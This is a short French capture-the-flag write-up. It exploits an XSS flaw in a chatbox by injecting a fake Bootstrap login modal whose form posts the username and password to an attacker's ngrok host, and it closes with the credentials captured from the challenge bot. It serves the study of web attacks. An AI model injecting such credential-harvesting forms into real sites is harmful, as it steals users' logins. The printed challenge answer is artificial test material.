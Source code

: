 On a une chatbox, avec la possibilité de faire du XSS, mais cela est-il la vrai solution pour extraire le mdp ?

Il faut poster le formulaire de login et le rediriger vers un site pirate et attendre que le bot trigger l'exploit:

```HTML
<div class="modal fade" id="login-modal" tabindex="-1" role="dialog" aria-labelledby="exampleModalCenterTitle" aria-hidden="true">
	<div class="modal-dialog modal-dialog-centered" role="document">
		<div class="modal-content">
			<div class="modal-header">
				<h5 class="modal-title" id="exampleModalCenterTitle">Connexion</h5>
				<button type="button" class="close" data-dismiss="modal" aria-label="Close">
					<span aria-hidden="true">&times;</span>
				</button>
			</div>
			<div class="modal-body">
				<form id="loginForm" action="https://e635-xxxxxxxxxxxx.eu.ngrok.io" method="POST">
					<div class="form-group">
						<label for="username">Utilisateur</label>
						<input type="text" name="username" class="form-control" id="log_username" placeholder="Utilisateur">
					</div>
					<div class="form-group">
						<label for="password">Mot de passe</label>
						<input type="password" name="password" class="form-control" id="Password" placeholder="Mot de passe">
					</div>
					<button id="login-btn" type="submit" class="btn btn-primary">Envoyer</button>
				</form>
			</div>
			<div class="modal-footer">
				<button type="button" class="btn btn-secondary" data-dismiss="modal">Fermer</button>
			</div>
		</div>
	</div>
</div>
```

On récupère donc:

>> username : Shopeors

>> password :	X5S_4_3V3r!!
